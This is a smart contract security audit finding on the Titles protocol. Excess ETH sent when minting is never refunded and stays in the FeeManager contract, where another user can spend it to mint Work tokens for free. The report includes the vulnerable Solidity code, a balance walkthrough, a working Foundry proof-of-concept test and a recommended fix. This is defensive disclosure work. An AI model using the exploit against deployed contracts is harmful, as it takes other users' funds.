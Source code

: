 Passive Sandstone Chinchilla

medium

# ETH refund during minting does not work, stuck ETH can be used to mint work tokens for free

## Summary
Whenever user mints a token through `Edition` contract with more ETH than required, `_excessRefund` doesn't work as intended and will never refund the excess ETH. Rest of the ETH will be in FeeManager contact, which can be used by other users (attackers) to mint Work tokens for free.

## Vulnerability Detail
[`FeeManager._collectMintFee`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/fees/FeeManager.sol#L366-L410) does all the ETH transfers to all the parties when Work tokens are minted, and it expects that there is enough ETH in the `FeeManager` contract to perform all the transfers. But the important part is that `FeeManager._collectMintFee` does not check if there is any excess ETH left in the contract after all the transfers to all the parties are made.
```solidity
    function _collectMintFee(
        IEdition edition_,
        uint256 tokenId_,
        uint256 amount_,
        address payer_,
        address referrer_,
        Fee memory fee_
    ) internal {
        if (fee_.amount == 0) return;

        // For free mints:
        // - Protocol Share = 1/3 of flat fee
        // - Edition Share = 2/3 of flat fee
        //
        // For priced mints:
        // - Protocol Share = 100% of flat fee, shared as follows:
        // - Edition Share = 100% of creator-specified mint cost, 0% of flat fee
        //
        // In both cases, the protocol and edition shares may be split as follows:
        // - Protocol Share
        //   - If a referred mint, mint referrer gets 50% of the protocol share
        //   - If a referred collection, collection referrer gets 25% of the protcol share
        //   - Protocol fee receiver gets the remainder of the protocol share
        // - Edition Share
        //   - Attributions equally split 25% of the edition share, if applicable
        //   - Creator gets the remainder of the edition share

        uint256 protocolFee = protocolFlatFee * amount_;
        uint256 protocolShare;
        if (fee_.amount == protocolFee) {
            protocolShare = protocolFee * protocolFeeshareBps / MAX_BPS;
        } else {
            protocolShare = protocolFee;
        }

        _route(
            Fee({asset: fee_.asset, amount: fee_.amount - protocolShare}),
            _feeReceivers[getRouteId(edition_, tokenId_)],
            payer_
        );

        uint256 referrerShare =
            _splitProtocolFee(edition_, fee_.asset, protocolShare, payer_, referrer_);
        emit FeeCollected(address(edition_), tokenId_, fee_.asset, fee_.amount, referrerShare);
    }
```


Let's follow how ETH flows through the minting process. 
For example's sake:
- mint fee for 1 token = 0.8 ether
- user sends 1 ether

1. User calls `Edition.mint` function to mint 1 token
```solidity
Edition.mint{ value: 1 ether }(...)
   Edition balance = 1 ether
   FeeManager balance = 0
```

2. `Edition` contract calls `FeeManager.collectMintFee`
```solidity
FeeManager.collectMintFee{ value: msg.value }(...)
   Edition balance = 0
   FeeManager balance = 1 ether
```

3. `FeeManager` distributes ETH to all of the parties, **`FeeManager` does not send excess ETH back to `Edition`**
```solidity
Edition balance = 0 
FeeManager balance = 0.2 ether
```

4. `Edition` contract calls `_refundExcess`, no tokens are sent back to the user, because `Edition` ETH balance is 0.

As of result, excess ETH tokens are left in `FeeManager` contract even though it is expected to be returned to the user, who called the `Edition.mint` function. 

Furthermore, excess ETH that is stuck inside the `FeeManager` contract can be used to mint Work tokens for free, because `FeeManager.collectMintFee` actually does not require ETH to be transferred within the function to successfully mint Work tokens.

### POC
<details>
  <summary>Foundry POC</summary>
  
  ### Instructions
  Copy the code below and add it under `Edition.t.sol`.
  Run `forge test --mt "test_excessRefund_issue" --mc "EditionTest" -vv`

  The test should return this
  ```shell
[PASS] test_excessRefund_issue() (gas: 265839)
Logs:
  Fee Manager ETH balance: 0
  Alice ETH balance: 1000000000000000000
  Bob ETH balance: 1000000000000000000
  Bob Work balance: 0
  -----
  Fee Manager ETH balance: 189400000000000000
  Alice ETH balance: 800000000000000000
  Bob ETH balance: 1000000000000000000
  Bob Work balance: 0
  -----
  Fee Manager ETH balance: 94000000000000000
  Alice ETH balance: 800000000000000000
  Bob ETH balance: 1002700000000000000
  Bob Work balance: 9
  -----
  Alice lost ETH: 200000000000000000
  Bob gained ETH: 2700000000000000
  Bob gained Works: 9
  ```

  From logs we can determine that:
  - Bob gained ETH and Work tokens for free
  - Alice's excess ETH was not returned

  ### Test script
  ```solidity
    function _logBalances(FeeManager fm, address alice, address bob) private {
        console.log("Fee Manager ETH balance: %d", address(fm).balance);
        console.log("Alice ETH balance: %d", address(alice).balance);
        console.log("Bob ETH balance: %d", address(bob).balance);
        console.log("Bob Work balance: %d", edition.balanceOf(bob, 1));
        console.log("-----");
    }

    function test_excessRefund_issue() public {
        address alice = address(0x123);
        address bob = address(0x456);
        vm.deal(alice, 1 ether);
        vm.deal(bob, 1 ether);

        uint256 aliceBalance = address(alice).balance;
        uint256 bobBalance = address(bob).balance;
        uint256 bobWorkBalance = edition.balanceOf(bob, 1);

        // Fee Manager, alice, bob, zero balance before
        _logBalances(feeManager, alice, bob);

        // Alice mints a work with excess ETH
        vm.prank(alice);
        edition.mint{value: 0.2 ether}(alice, 1, 1, address(0), new bytes(0));

        // Fee Manager, alice, bob balance after alice's mint
        _logBalances(feeManager, alice, bob);

        uint256 maxSupply = edition.maxSupply(1);
        uint256 totalSupply = edition.totalSupply(1);
        uint256 maxTokensThatCanBeMinted = maxSupply - totalSupply;

        // Calculate how many work tokens can be minted
        uint256 amountOfTokens = address(feeManager).balance / 0.0106 ether; // 0.01 mintFee + 0.0006 protocolFlatFee
        amountOfTokens =
            amountOfTokens > maxTokensThatCanBeMinted ? maxTokensThatCanBeMinted : amountOfTokens;
        vm.prank(bob);
        // Bob calls the mint and does not send any ETH
        edition.mint(bob, 1, amountOfTokens, bob, new bytes(0));

        // Fee Manager, alice, bob balance after bob's mint
        _logBalances(feeManager, alice, bob);

        // The difference between balances
        uint256 aliceBalanceAfter = address(alice).balance;
        uint256 bobBalanceAfter = address(bob).balance;
        uint256 bobWorkBalanceAfter = edition.balanceOf(bob, 1);

        console.log("Alice lost ETH: %d", aliceBalance - aliceBalanceAfter);
        console.log("Bob gained ETH: %d", bobBalanceAfter - bobBalance);
        console.log("Bob gained Works: %d", bobWorkBalanceAfter - bobWorkBalance);
    }
  ```
</details>

## Impact
Minter will lose excess ETH, even though user is expected to get the excess ETH back, users/attackers can use the excess ETH to mint work tokens for free.

## Code Snippet
[`FeeManager._collectMintFee`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/fees/FeeManager.sol#L366-L410)

`_refundExcess` used in the `Edition` minting functions:
[`Edition.mint`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L241)
[`Edition.mintWithComment`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L267)
[`Edition.mintBatch(address,uint256[],uint256[],bytes)`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L296)
[`Edition.mintBatch(address[],uint256,uint256,bytes)`](https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/editions/Edition.sol#L319)

## Tool used

Manual Review

## Recommendation
For `_refundExcess` function in `Edition` actually returns excess ETH, make sure that `FeeManager` after all the transfers in the `_collectMintFee` checks if any excess ETH is left. If there is - send the ETH back to `Edition` contract.

This will make the `_refundExcess` function to return the excess ETH.
